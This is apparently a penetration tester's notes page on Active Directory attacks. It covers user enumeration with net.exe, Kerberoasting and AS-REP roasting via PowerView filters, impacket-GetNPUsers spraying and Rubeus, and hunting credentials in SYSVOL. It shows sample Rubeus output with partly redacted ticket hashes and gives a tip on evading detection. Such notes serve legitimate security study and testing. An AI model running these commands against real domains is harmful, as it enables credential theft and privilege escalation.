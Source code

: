 # Active Directory

## Domain Enumeration

Enumeration of users within a domain using various ways:

* Native Windows tools:
  * net.exe

```powershell
C:> net user /dom
```

```powershell
C:> net group /dom
```

*   With RDP access to a compromised machine, the GUI panel "Search Active Directory" from File Explorer can be used:\
    &#x20;

    <figure><img src="../.gitbook/assets/gui-ad-search-explorer.png" alt="" width="526"><figcaption></figcaption></figure>

## Kerberoasting / AsrepRoasting

Using PowerView enumeration of users which have a set `ServicePrincipalName` attribute would be considered service accounts regardless if they're actually used with any service within a domain.

As such, they're considered a good target for Kerberoasting attacks.&#x20;

Similarly, user objects which have the `userAccountControl` attribute set to `1.2.840.113556.1.4.803:=4194304` are considered as targets for AsrepRoasting.&#x20;

* Finding users with a configured `servicePrincipalName` attribute within Active Directory (excluding the `krbtgt` account:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS: > Get-DomainUser -LDAPFilter "(&#x26;(objectClass=user)(servicePrincipalName=*)(!(samaccountname=krbtgt)))"
</strong></code></pre>

* Finding users with a `userAccountControl` attribute value allowing for AsrepRoasting:

```powershell
PS: > Get-DomainUser -LDAPFilter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
```

Same filters can be used with `ldapsearch` on Linux.

In the case where an attacker doesn't have a valid user wordlist which exist in the target domain, a generalised wordlist of usernames following the format of the target domain for usernames, can be used to spray them and determine if they have a configured value for `Do not require preauthentication` attribute.

A list of usernames can be obtained from [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames).

```bash
$ impacket-GetNPUsers -no-pass -usersfile jsmith.txt target.domain.local/
```

Using known .NET tools can be used as well which can be loaded from a C2 using methods such as `inline-execute`.

Alternatively, if access is already obtained on a target via psexec, winrm or alternative method, the following tools can be used:

* Rubeus (obtain statistiscs)

```powershell
PS: > C:\Windows\Tasks\Rubeus.exe kerberoast /stats

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : us.techcorp.local
[*] Searching path 'LDAP://target.domain.local/DC=target,DC=domain,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


 -------------------------------------
 | Supported Encryption Type | Count |
 -------------------------------------
 | RC4_HMAC_DEFAULT          | 3     |
 -------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2019                   | 1     |
 | 2021                   | 1     |
 | 2024                   | 1     |
 ----------------------------------
```

* Rubeus (kerberoast all users with SPN value)

> OPSEC: performing targeted kerberoasting or asreproasting is considered better for opsec. Performing kerberosting on all users in a domain with SPN will trigger lots of detections.

```powershell
PS: > C:\Windows\Tasks\Rubeus.exe kerberoast


   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : target.domain.local
[*] Searching path 'LDAP://target.domain.local/DC=target,DC=domain,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : svcVeeamadm
[*] DistinguishedName      : CN=svcveeamadm,CN=Users,DC=target,DC=domain,DC=local
[*] ServicePrincipalName   : cifs/svcVeeamadm
[*] PwdLastSet             : 7/16/2019 12:03:27 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svcVeeamadm$target.domain.local$cifs/svcVeeamadm@target.domain.l
                             ocal*$B9BE5FA[REDACTED]


[*] SamAccountName         : svchttp01
[*] DistinguishedName      : CN=svchttp01,CN=targeters,DC=target,DC=domain,DC=local
[*] ServicePrincipalName   : svchttp01/target-jump.target.domain.local
[*] PwdLastSet             : 1/8/2021 5:50:35 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svchttp01$target.domain.local$svchttp01/target-jump.target.domain.local@target
                             .domain.local*$40146CAC3[REDACTED]

[*] SamAccountName         : dssServ
[*] DistinguishedName      : CN=dssServ,CN=Users,DC=us,DC=domain,DC=local
[*] ServicePrincipalName   : http/machine01
[*] PwdLastSet             : 7/2/2024 1:25:57 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*dssServ$target.domain.local$http/machine01@target.domain.local*$7C2C5
                             3B4B0F27EB99DF86C7F5A036[REDACTED]
```

## Credentials in SYSVOL

SYSVOL and NETLOGON shares on domain controllers are used often by developers and system administrators to store scripts which may likely contain hardcoded credentials. These credentials can be used to escalate privileges either horizontally or vertically within a domain environment.

A good resource for understanding this concept can be found here: [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288) (Image obtained from adsecurity.org)

<figure><img src="../.gitbook/assets/VBS-Scripts-In-SYSVOL.jpg" alt=""><figcaption></figcaption></figure>

&#x20;
